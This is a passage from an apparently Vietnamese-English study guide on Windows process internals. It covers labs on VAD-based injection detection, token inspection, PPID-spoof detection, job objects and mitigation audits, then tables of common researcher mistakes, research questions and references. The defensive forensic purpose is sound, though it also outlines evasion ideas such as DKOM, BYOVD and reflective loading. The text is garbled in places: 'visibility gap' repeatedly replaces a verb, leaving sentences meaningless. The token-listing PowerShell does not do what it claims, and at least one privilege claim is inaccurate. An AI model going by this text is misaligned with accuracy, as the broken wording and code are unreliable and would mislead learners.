; Đọc PEB từ kernel
dt nt!_EPROCESS ffff8001`12345678 Peb
; Lấy PEB address, ví dụ: 00000000`00ab1000
.process /r /p ffff8001`12345678
dt ntdll!_PEB 00000000`00ab1000
```

**Câu hỏi:** MitigationFlags của notepad.exe có DEP enable không? PPL type là gì?

### Lab 2 — VAD tree analysis và memory-tamper signal review

**Mục tiêu:** Inject shellcode đơn giản (PoC, không malicious) vào notepad.exe, sau đó dùng WinDbg và Volatility để phát hiện.

**Bước 1:** Chạy notepad.exe. Dùng simple injector (học thuật) allocate RWX memory và write pattern bytes.

**Bước 2 — WinDbg:**

```windbg
!process 0 0 notepad.exe
!vad <eprocess_addr> 4
; Tìm vùng nhớ: MEM_PRIVATE + EXECUTE_READWRITE + không có backing file name
```

**Bước 3 — Volatility:**

```bash
vol -f memory.raw windows.malfind --pid <notepad_pid>
; Output: base address, VAD flags, hexdump của injected bytes
vol -f memory.raw windows.ldrmodules --pid <notepad_pid>
; Tìm DLL trong VAD nhưng không trong PEB.Ldr
```

**Câu hỏi:** malfind phát hiện vùng nào? ldrmodules có discrepancy không?

### Lab 3 — Token inspection and impersonation-risk review

**Mục tiêu:** Enumerate tokens của tất cả running processes, so sánh SID và privileges.

**Công cụ:** Process Explorer (Security tab) + PowerShell.

```powershell
# List all processes với integrity level
Get-Process | ForEach-Object {
    try {
        $handle = $_.Handle
        $tokenHandle = [System.Security.Principal.WindowsIdentity]::GetCurrent()
        [PSCustomObject]@{
            PID = $_.Id
            Name = $_.Name
            UserName = (Get-WmiObject Win32_Process -Filter "ProcessId=$($_.Id)").GetOwner().User
        }
    } catch {}
}

# Xem token của specific process (cần Process Explorer hoặc handle tool)
# Process Explorer: double-click process → Security tab
```

**WinDbg (kernel):**

```windbg
!process 0 0 winlogon.exe
dt nt!_EPROCESS <addr> Token
; Token.Object & ~0xF = _TOKEN address
dt nt!_TOKEN <token_addr>
dt nt!_TOKEN <token_addr> Privileges  ; list all privileges
```

**Câu hỏi:** winlogon.exe có những privileges nào mà notepad.exe không có? lsass.exe token có IntegrityLevel gì?

### Lab 4 — PPID spoof phát hiện

**Mục tiêu:** Chạy PPID spoof example (học thuật), sau đó phát hiện bằng Sysmon và logic check.

**Công cụ:** PPIDSpoof PoC (github học thuật) + Sysmon với config đầy đủ.

**Bước 1:** Cài Sysmon với config capture EventID 1 (process create).

**Bước 2:** Chạy PPIDSpoof — spawn cmd.exe giả vờ parent là explorer.exe (PID thực của explorer).

**Bước 3:** Xem Sysmon EventID 1:

```xml
<EventData>
  <Data Name="ParentProcessId">1234</Data>  <!-- spoofed: explorer.exe PID -->
  <Data Name="ParentImage">C:\Windows\explorer.exe</Data>
  <Data Name="Image">C:\Windows\System32\cmd.exe</Data>
</EventData>
```

**Bước 4 — Detection logic:**

```python
# Pseudo-code: so sánh parent creation time vs child creation time
if parent.create_time > child.create_time:
    alert("PPID spoof: parent created after child")
# Hoặc: so sánh PPID trong Sysmon event vs thực tế process tree trong memory
```

**Câu hỏi:** Nếu spoofed parent (explorer.exe) vẫn đang running và được tạo trước child, detection logic trên có phát hiện không? Cần thêm gì?

### Lab 5 — Job object và limits

**Mục tiêu:** Tạo job object với process memory limit, gán process vào, verify limit enforcement.

```c
#include <windows.h>
#include <stdio.h>

int main() {
    HANDLE hJob = CreateJobObject(NULL, L"TestJob");

    JOBOBJECT_EXTENDED_LIMIT_INFORMATION limits = {};
    limits.BasicLimitInformation.LimitFlags = JOB_OBJECT_LIMIT_PROCESS_MEMORY |
                                               JOB_OBJECT_LIMIT_KILL_ON_JOB_CLOSE;
    limits.ProcessMemoryLimit = 50 * 1024 * 1024; // 50 MB

    SetInformationJobObject(hJob, JobObjectExtendedLimitInformation, &limits, sizeof(limits));

    // Spawn notepad.exe và assign vào job
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    CreateProcess(NULL, L"notepad.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    AssignProcessToJobObject(hJob, pi.hProcess);
    ResumeThread(pi.hThread);

    printf("notepad.exe PID=%d assigned to job\n", pi.dwProcessId);
    printf("Try to allocate > 50MB in notepad... it should fail\n");
    WaitForSingleObject(pi.hProcess, INFINITE);
    CloseHandle(hJob); // → KillOnJobClose terminates notepad if still running
    return 0;
}
```

**WinDbg (verify):**

```windbg
!process 0 0 notepad.exe
dt nt!_EPROCESS <addr> Job
!job <job_addr>
```

### Lab 6 — Mitigation policy audit

**Mục tiêu:** Check và compare mitigation policies của các processes trên hệ thống.

```powershell
# Dùng Get-ProcessMitigation (PowerShell 5+)
Get-ProcessMitigation -Id (Get-Process lsass).Id
Get-ProcessMitigation -Id (Get-Process chrome).Id
Get-ProcessMitigation -Id (Get-Process notepad).Id

# So sánh: chrome có ACG không? lsass có CFG không?
```

```windbg
; Kernel: đọc MitigationFlags raw
!process 0 0 chrome.exe
dt nt!_EPROCESS <addr> MitigationFlags
dt nt!_EPROCESS <addr> MitigationFlags2
; Decode bits theo: winnt.h PROCESS_MITIGATION_* definitions
```

**Câu hỏi:** Chrome renderer process có những mitigation nào khác với browser process? lsass.exe trên Windows 11 có CET (shadow stack) không?

---

## 13. Common Researcher Mistakes

| # | Sai lầm | Tại sao sai | Cách đúng |
|---|---------|------------|-----------|
| 1 | Tin PPID là parent thật | PPID là metadata user-controllable — không kernel-enforced | Verify bằng process creation time và handle ownership |
| 2 | Tin command line lúc read | Cmdline trong PEB user-writable sau init | EDR phải capture tại `PsCreateProcessNotify` callback |
| 3 | Dùng `ImageFileName` (15 char) để identify process | Trường này bị truncate tại 15 ký tự — "MicrosoftEdge..." bị cắt | Dùng full image path từ PEB hoặc file object |
| 4 | Cho rằng DKOM process không có dấu vết | EPROCESS bị unlink khỏi `ActiveProcessLinks` nhưng VAD tree, pool tag, handle table vẫn tồn tại | Dùng pool tag scan (`psscan`) thay vì list walk (`pslist`) |
| 5 | Nhầm "hidden DLL" với injected shellcode | DLL inject có PE header + LDR entry; shellcode thường không có PE header trong VAD | Kiểm tra cả PE header presence và LDR discrepancy |
| 6 | Nghĩ Admin = tất cả quyền | Admin không có SeDebugPrivilege mặc định; PPL chặn ngay cả Admin | Enable SeDebugPrivilege, và PPL cần kernel visibility gap |
| 7 | Assume `OpenProcess` luôn trả về đủ access | ObRegisterCallbacks (EDR) có thể strip access mask | Kiểm tra actual access mask của returned handle |
| 8 | Quên PEB.BeingDebugged khi reverse | Anti-debug check nằm ngay đầu nhiều malware và packer | Patch byte tại `PEB+0x2` = 0 trước khi run |
| 9 | Dùng Sysmon EventID 1 làm nguồn duy nhất | Sysmon có thể bị visibility gap (driver unload, filter visibility gap) | Kết hợp Security 4688 + ETW-TI + kernel callback |
| 10 | Cho rằng reflective DLL load không bị detect | `PsSetLoadImageNotifyRoutine` không fire cho reflective load | Detect qua VAD: PE header + no backing file + no LDR entry |
| 11 | Nhầm KPROCESS với EPROCESS | KPROCESS là phần đầu (offset 0) của EPROCESS — cùng địa chỉ | Hiểu rằng dt nt!_KPROCESS và dt nt!_EPROCESS tại cùng addr |
| 12 | Cho rằng lower-layer/native call path visibility gap tất cả detection | Lower-layer/native call path visibility gap user-mode hooks nhưng **không visibility gap** kernel callbacks (PsSetCreateProcessNotify, ObRegisterCallbacks) | Kernel callbacks chạy trong kernel — không thể visibility gap từ user mode |
| 13 | Nghĩ job escape dễ nếu có PROCESS_VM_WRITE | Job boundary là kernel-enforced — không escape bằng memory write | Escape cần logic flaw trong job policy hoặc inject vào process ngoài job |
| 14 | Assume process isolation là tuyệt đối | Shared memory sections, DuplicateHandle, và kernel drivers có thể cross boundaries | Windows isolation là DAC (discretionary) không phải MAC — privilege là key |

---

## 14. Windows Version Notes

| Feature | Version introduced | Thay đổi chính | Researcher impact |
|---------|-------------------|----------------|-------------------|
| **ASLR** | Vista (2007) | Randomize base address | Cần info leak để exploit |
| **DEP / NX** | XP SP2 (2004) | Non-executable data pages | Cần ROP |
| **Integrity Levels (MIC)** | Vista | Low/Medium/High/System IL | Sandbox và UAC foundation |
| **Protected Process (PP)** | Vista | Protect media DRM processes | Predecessor của PPL |
| **Job nesting** | Win8 | Hierarchical job objects | Browser sandbox model |
| **PPL (Protected Process Light)** | Win8.1 | Lightweight PP with signer levels | lsass protection, EDR PPL |
| **CFG (Control Flow Guard)** | Win10 1507 | Validate indirect call targets | Compiler + OS cooperation |
| **ACG (Arbitrary Code Guard)** | Win10 1607 | No dynamic code generation | JIT-less renderer |
| **CIG (Code Integrity Guard)** | Win10 1703 | Only signed DLL load | Reduce unsigned code-loading risk |
| **CET (Shadow Stack)** | Win10 20H1 | Hardware return address protection | Intel CET / AMD CET support |
| **VBS / HVCI** | Win10 1703 (opt-in) | Hypervisor code integrity | Signed driver enforcement |
| **Credential Guard** | Win10 1511 | LSAISO in VTL1 | Token/cred isolation từ kernel |
| **PPID spoof via attribute** | Vista+ | PROC_THREAD_ATTRIBUTE_PARENT_PROCESS | Widely abused by malware |
| **RunAsPPL = 2 (PP level)** | Win10 1507 | Stronger lsass protection | Harder to visibility gap than PPL |
| **NtCreateUserProcess replaces CreateProcess** | Vista | Unified process creation | Lower-layer/native call path target |
| **ETW-TI** | Win10 1507 | Threat Intelligence ETW provider | PPL-only consumer |

---

## 15. Summary

Process là security container cơ bản của Windows. Mỗi process có:

1. **Address space riêng** — page table (CR3) phần cứng enforce, VAD tree track regions
2. **Handle table riêng** — ánh xạ handle → kernel object + access mask
3. **Token riêng** — xác định identity, privileges, integrity level
4. **EPROCESS kernel object** — source of truth cho mọi metadata (PPID, cmdline, mitigation flags, PPL protection)
5. **PEB user-mode view** — convenient nhưng writable, dễ bị tamper

Từ góc nhìn offensive:
- Cross-process memory tampering cần handle với đủ access rights — bị chặn bởi ObRegisterCallbacks
- Token abuse cần privilege cao hơn target
- PPID và cmdline spoof hoạt động được vì chúng là metadata không kernel-enforced
- PPL visibility gap cần kernel driver (BYOVD) hoặc exploit specific COM interface

Từ góc nhìn defensive/EDR:
- Kernel callbacks (PsSetCreateProcessNotify, ObRegisterCallbacks, PsSetLoadImageNotify) là lớp telemetry quan trọng nhất
- ETW-TI bổ sung visibility cho memory allocation và context switch
- User-mode hooks dễ visibility gap — không nên là lớp duy nhất
- VAD tree và pool tag scan là nền tảng của memory forensics

---

## 16. Research Questions

1. `PsSetCreateProcessNotifyRoutineEx` callback có bị visibility gap nếu kernel driver unregister nó không? Cơ chế protection của callback array là gì?

2. Manual mapping research class không trigger `PsSetLoadImageNotifyRoutine` — có cách nào để phát hiện reflective load qua kernel mechanism khác không (e.g., page fault handling, section object monitoring)?

3. NtCreateUserProcess có thể bị gọi với section object của một PE file đã được tampered in-memory không? Flow validation xảy ra ở đâu?

4. EPROCESS.MitigationFlags có thể bị overwrite từ kernel để visibility gap mitigation không? Nếu có, integrity của field này được bảo vệ thế nào (nếu có)?

5. ObRegisterCallbacks có thể strip access mask xuống 0 không? Điều gì xảy ra nếu EDR strip tất cả access nhưng caller vẫn expect một handle hợp lệ?

6. `DuplicateHandle` từ process A sang process B — kernel callbacks nào fire? EDR có visibility vào operation này không?

7. Job object escape trong Chrome sandbox thực tế xảy ra như thế nào? Boundary nào thực sự bị exploit?

8. `KUSER_SHARED_DATA` (0x7FFE0000) có thể bị dùng để leak thông tin nào về process state? Attacker có thể exploit read-only constraint không?

9. VBS/HVCI enforce rằng chỉ kernel code đã được signed mới chạy — nhưng DKOM vẫn hoạt động nếu attacker có kernel write primitive. Tại sao? VTL1 bảo vệ gì mà VTL0 kernel không tự bảo vệ được?

10. `PEB.NtGlobalFlag` có thể bị set bởi non-debugger code không? Malware có thể set flag này để trick anti-anti-debug tools không?

11. Token impersonation trong kernel context (e.g., driver thread) — có bị MIC enforce không? Kernel thread có thể impersonate Low IL token không?

12. Process mitigation policies có thể được tăng sau khi process đã start không? Có thể bị giảm không? Ai có thể thay đổi chúng?

---

## 17. References

| Tài liệu | Relevance |
|----------|-----------|
| Windows Internals, Part 1, 7th Ed — Chapter 3 (Processes) | Nguồn gốc — EPROCESS, PEB, job, mitigation |
| Windows Internals, Part 1, 7th Ed — Chapter 5 (Memory) | VAD tree, address space detail |
| Mark Russinovich — "Pushing the Limits of Windows" (blog series) | Process/job limits, handle counts |
| Alex Ionescu — "The Windows Sandbox Paradox" (REcon 2015) | Job object sandbox internals |
| itm4n — "PPLdump" writeup | PPL visibility gap không cần kernel driver |
| modexp — "SyscallTables" | SSDT and syscall mechanism |
| j00ru — Windows syscall tables | Syscall number history across versions |
| CyberArk — "Token Impersonation" | Token abuse techniques |
| Elastic Security — "Cross-process memory tampering" | Modern cross-process memory tampering techniques and detection |
| Hexacorn blog — "Parent PID Spoofing" | PPID spoof analysis |
| Microsoft — PsSetCreateProcessNotifyRoutineEx docs | Callback API documentation |
| Microsoft — PROCESS_MITIGATION_* structures (winnt.h) | Mitigation flag definitions |
| TODO: MSDN link cho NtCreateUserProcess | Undocumented but widely documented externally |
| TODO: ReactOS source — ntoskrnl/ps/process.c | Open-source reference for process creation |
| TODO: GitHub — SysWhispers3 | Lower-layer/native call path implementation reference |

---

## 18. Illustration Plan

| Diagram | Mô tả | Priority |
|---------|-------|---------|
| **PE → Section → EPROCESS → ETHREAD** | Đã có ở Section 2.1 | Done |
| **Process resource map** | Đã có ở Section 2.2 | Done |
| **Creation telemetry flow** | Đã có ở Section 2.3 | Done |
| **Handle access model** | Đã có ở Section 2.4 | Done |
| Process lifetime timeline | Horizontal timeline: create → init → run → exit → reap | High |
| Token inheritance diagram | Parent token → child token copy, impersonation overlay | High |
| VAD tree visualization | Binary tree of _MMVAD nodes với file backing info | Medium |
| Mitigation stack diagram | Layers: hardware (CET) → kernel (CFG bitmap) → loader (ASLR) → runtime (DEP) | Medium |
| PPL signer hierarchy | Pyramid: WinSystem (7) → WinTcb (6) → ... → None (0) | Medium |
| Job nesting diagram | Nested job hierarchy, limit inheritance model | Low |
| DKOM attack diagram | EPROCESS unlinked from list, but pool tag and VAD remain | High |
| Injection comparison table | Side-by-side: classic vs hollow vs reflective vs APC | Medium |
